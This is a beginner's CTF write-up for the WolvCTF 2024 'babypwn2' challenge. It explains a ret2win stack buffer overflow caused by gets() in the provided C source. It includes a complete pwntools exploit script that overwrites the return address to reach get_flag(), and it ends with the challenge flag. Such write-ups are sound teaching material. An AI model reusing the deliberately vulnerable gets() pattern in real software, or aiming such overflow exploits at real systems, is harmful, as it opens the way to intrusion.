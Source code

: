 ```yaml
---
layout: writeup
category: Wolv-CTF-2024
chall_description:
points: 50
solves: 182
tags: pwn pwn/buffer-overflow pwn/ret2win pwn/gets
date: 2024-3-19
comments: false
---
```


A harder babypwn.  

`nc babypwn2.wolvctf.io 1337 `  

[babypwn2](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Wolv-CTF-2024/beginner/babypwn2)  
[babypwn2.c](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Wolv-CTF-2024/beginner/babypwn2.c)  

---

We're provided a binary ELF and a C source file. Here's the source:  

```c
#include <stdio.h>
#include <unistd.h>

/* ignore this function */
void ignore()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag() 
{
    char *args[] = {"/bin/cat", "flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main() 
{
    ignore();
    char buf[0x20];
    printf("What's your name?\n>> ");
    gets(buf);
    printf("Hi %s!\n", buf);
    return 0;
}
```

Basically, the vulnerability here lies in the call to the `gets()` function in main().  gets() is well-known to be vulnerable, as it places no protections on buffer overflow/sending in too many bytes as input.  

Essentially, this is a classic ret2win challenge. For those of you unaware what this means, ret2win entails overriding the RIP, i.e. the return pointer. Basicaly, the RIP is located on the stack, and, at the end of main(), when the proram hits a `return` statement, the program will return to the location specified by RIP. However, because the RIP is located on the stack, attackers can override this value. We want to override the RIP with the return address of get_flag() so the program returns to get_flag() instead!  

To do this, we can easily use pwntools. I recommend beginners who solve these challenges without pwntools to try and switch to pwntools because it is much easier!  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./babypwn2")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./babypwn2')
# gdb.attach(p)

p = remote('babypwn2.wolvctf.io', 1337)

### IGNORE EVERYTHING ABOVE

# FIND RIP offset
# p.sendlineafter(b'>> ', cyclic(1024))

winaddr = elf.symbols['get_flag']
offset = cyclic_find('kaaalaaa')

p.sendlineafter(b'>> ', b'A'*offset + pack.p64(winaddr))

p.interactive()
```

First, we can find the offset of the RIP on the stack comapred to where the input is. We can do this by sending a cyclic of length 1024 (arbitrarily large). I'll skip over the fine details, but, essentially, you can think of the cyclic() function generates a sequence of characters such that every group of 4 characters will be unique. When the program inveitably throws a segmentation fault, once the RIP is overriden and it can't find the corresponding function since it is a random address, we can find the 8 characters it attempted to return to by checking the bytes at RSP, the stack pointer (points to the top of the stack). (Note that it is 8 instead of 4 because this is a 64-bit ELF, instead of a 32-bit ELF).  

If you're using standard GDB, we can do this by the command `x/qx $rsp`. I'm personally using pwndbg (and I would recommend you do so too!), which allows me to see all registers everytime the program stops.  

With pwndbg, we can clearly see that it's `kaaalaaa` (or by decoding from hex to ASCII from what you read in standard GDB). Now that we know this, we can use pwntools's `cyclic_find()` function to find the offset of this string in the generated cycle.  

Once we do that, we can simply find the address of the get_flag() function as seen above, then send some garbage bytes to fill the bytes in between the input and the RIP, and then send the packed value of the win address (because little-endianness requires us to send the reverse of the bytes).  

That's it. Running the program will now get you the flag!  

    wctf{Wo4h_l0ok_4t_y0u_h4ck1ng_m3}

### Sidenote
It is usually also standard to run `checksec` on the ELF, but I left it out since this is a writeup intended for beginners. This is a very useful tool for pwners, so if you're a beginner, I would recommend downloading it!  